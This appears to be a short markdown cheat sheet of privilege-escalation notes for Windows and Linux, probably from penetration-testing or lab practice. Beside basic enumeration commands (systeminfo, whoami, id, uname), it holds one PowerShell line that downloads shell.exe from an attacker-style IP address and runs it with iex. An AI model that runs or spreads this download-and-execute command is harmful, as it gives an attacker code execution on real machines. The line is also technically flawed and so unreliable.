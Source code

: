# Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```

## Basic Enum

```systeminfo```  -   Get system information | is system x64/x86 | are any patches applied

# Linux Privilege Escalations

## Important tips

## Basic Enum

```whoami;id;uname -a```  -   Get username and OS info
